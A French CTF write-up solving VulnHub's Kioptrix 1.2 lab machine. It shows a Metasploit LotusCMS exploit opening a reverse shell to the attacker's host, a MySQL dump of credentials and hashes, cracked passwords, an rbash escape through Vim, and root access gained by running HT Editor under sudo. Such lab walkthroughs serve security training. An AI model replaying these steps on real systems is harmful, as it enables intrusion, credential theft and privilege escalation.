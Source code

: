 ```yaml
---
title: "Solution du CTF Kioptrix: 1.2 de VulnHub"
tags: [CTF, VulnHub]
---
```


Voici la solution du [CTF Kioptrix 1.2](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) qui date d'avril 2011  

CMS en mousse
-------------

```
Nmap scan report for 192.168.1.28
Host is up (0.00019s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp   open     http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Ligoat Security - Got Goat? Security ...
9874/tcp filtered unknown
```

Sur le serveur Apache se trouve un CMS que [Wappalizer](https://www.wappalyzer.com/) ne reconnaît pas mais si on se rend sur la page de login on peut lire *Proudly Powered by: LotusCMS*  

On trouve facilement un [exploit Metasploit](https://www.exploit-db.com/exploits/18565/) pour ce CMS et comme la *DisclosureDate* est au 3 mars 2011 dans le code de l'exploit ça en fait un très bon candidat...  

Au passage il y a aussi sur le site une galerie PHP dont on trouve facilement le nom (*Gallarific*) grâce à la présence du balise méta. Il existe différents exploits là aussi trouvables sur *exploit-db*.  

Grace au module Metasploit l'exploitation est aisée :  

```
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.28     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /                yes       URI
   VHOST    kioptrix3.com    no        HTTP server virtual host

Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0

msf exploit(lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.3:9999 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 3 opened (192.168.1.3:9999 -> 192.168.1.28:40897) at 2018-02-14 21:04:35 +0100
id;uname -a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

On trouve deux utilisateurs sur le système: *dreg* et *loneferret*.  

Ainsi que les identifiants SQL dans la configuration de la galerie (rien pour le CMS qui est file-based) :  

```php
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

L'historique de l'un des utilisateurs est lisible :  

```
www-data@Kioptrix3:/home$ cat loneferret/.bash_history
sudo ht
exit
```

Je décide de faire un tour du côté du MySQL :  

```
www-data@Kioptrix3:/etc$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from gallarific_users;
select * from gallarific_users;
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
| userid | username | password | usertype  | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
|      1 | admin    | n0t7t1k4 | superuser | Super     | User     |       | 1302628616 |         |           1 |       |          | 
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
1 row in set (0.00 sec)
```

Passwords faibles
-----------------

On retrouve facilement les mots de passe des utilisateurs qui sont respectivement *Mast3r* pour *dreg* et *starwars* pour *loneferret*.  

Ca tombe bien, dreg a le même mot de passe pour le système :  

```
$ ssh dreg@192.168.1.28
dreg@192.168.1.28's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ sudo -l
[sudo] password for dreg: 
Sorry, user dreg may not run sudo on Kioptrix3.
dreg@Kioptrix3:~$ cd ..
rbash: cd: restricted
```

On est dans un environnement restreint (*rbash*) qui ne nous permet pas de sortir du dossier courant.  

Heureusement on peu en sortir en passant par Vim via les commandes suivantes (définir un shell différent et l'exécuter) :  

```
:set shell=/bin/bash
:shell
```

Mais en réalité tout celà ne sert à rien puisque le mot de passe pour *loneferret* est aussi bon :  

```
dreg@Kioptrix3:~$ su loneferret         
Password: 
loneferret@Kioptrix3:/home/dreg$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
```

C'est du gâteau
---------------

On sait que l'utilisateur peut lancer [HT Editor]({% link _posts/2011-01-09-Tutoriel-d-utilisation-de-HT-Editor.md %}) en tant que root.  

*HT* est un désassembler mais aussi un éditeur de texte classique. Il suffit donc d'aller ouvrir le dossier /root puis de lire le flag (*Congrats.txt*).  

![Kioptrix3 flag opened with HT Editor](/assets/img/kioptrix/kioptrix3_ht.png)

Une erreur *Error opening terminal: xterm-256color* empêchait tout de même d'exécuter *HT*, il fallait y rémédier avec la commande *export TERM=xterm*.  


*Published February 22 2018 at 18:02*
